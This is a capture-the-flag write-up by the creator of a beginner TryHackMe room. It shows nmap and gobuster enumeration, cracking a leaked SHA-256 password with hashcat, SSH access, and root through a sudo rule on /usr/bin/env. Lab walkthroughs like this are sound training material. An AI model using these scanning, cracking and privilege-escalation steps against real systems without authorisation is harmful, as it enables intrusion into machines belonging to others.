





# [](#header)Intro

This is actually my first ever VM i created and i hope it was an enjoyable machine for all of you to try :DD.

I design this room to be easy for beginners and more importantly i hope all of you enjoy.

Okay let's just get into hacking!!

<a href="https://tryhackme.com/room/chewie">
Link to the room
</a>

# [](#header)Enumeration

We start with nmap scan :

### nmap -sC -sV -oN nmap 192.168.100.11

- -sC : Equivalent to --script=default
- -sV : Probe open ports to determine service/version info
- -oN : Output scan in normal

```bash

SStarting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 09:41 WIB
Nmap scan report for 10.10.238.69
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:11:1e:54:86:a6:fc:76:3a:58:cf:34:95:1b:03:de (RSA)
|   256 a9:d0:aa:7f:9d:da:5c:1b:be:1f:03:ed:80:e6:1c:f9 (ECDSA)
|_  256 93:56:b3:e7:21:fa:32:f0:04:49:75:4f:61:0c:68:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Chewwie
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.34 seconds

```

We only have 2 ports open: 80 for Apache and 22 for SSH.

Visiting the webserver we get the following page:



We can try to do directory scan with gobuster and add txt extension:

### gobuster dir -u http://192.168.100.11/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt

- dir : Uses directory/file brutceforcing mode
- -w : Path to the wordlist
- -u : To specify the url

```bash

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.69/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/06/18 09:45:16 Starting gobuster
===============================================================
/images (Status: 301)
/notes.txt (Status: 200)
Progress: 5045 / 220561 (2.29%)
```

We found `notes.txt` and inside we found a username and password for ssh.



But the password was hashed and we have to crack it. There's a lot of ways of cracking password, but here i will use hashcat to crack the hash:

### hashcat -a 0 -m 1400 '5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0' /opt/wordlist/rockyou.txt

- -a : --attack-mode (0 for Straight mode)
- -m : --hash-type (1400 for sha256)

```bash
Dictionary cache hit:
* Filename..: /opt/wordlist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0:password101

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA2-256
Hash.Target......: 5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b...8ac4f0
Time.Started.....: Tue Jun 16 18:39:43 2020 (1 sec)
Time.Estimated...: Tue Jun 16 18:39:44 2020 (0 secs)
Guess.Base.......: File (/opt/wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    76479 H/s (3.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 20480/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: michael! -> 280789

Started: Tue Jun 16 18:39:01 2020
Stopped: Tue Jun 16 18:39:46 2020
```

A few minutes later the password was CRACKED!!

After that we can ssh to the machine with the user we found and the password we crack:



We can finally capture the user.txt in current directory:



For the root flag, first we can use the command `sudo -l` for listng user's privileges or check a specific command:

```bash
lia@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for lia on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lia may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: /usr/bin/env
```

We can run `/usr/bin/env` as sudo. We can abuse that command to gain privilege as root by typing
<br> `sudo /usr/bin/env /bin/sh` and that's it! We are root :



We can finally capture the root.txt in /root directory:


And that's it! We root the machine. Hope you guys enjoy reading this writeup.
Thank You :DD
